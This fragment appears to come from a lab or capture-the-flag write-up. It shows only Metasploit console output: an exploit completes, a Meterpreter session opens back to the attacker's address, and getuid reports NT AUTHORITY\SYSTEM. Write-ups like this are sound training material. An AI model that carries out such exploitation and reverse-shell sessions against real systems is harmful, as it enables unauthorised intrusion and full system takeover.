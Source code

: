 ```
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.16.8:3000 -> 10.10.10.15:1032) at 2022-01-08 08:26:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
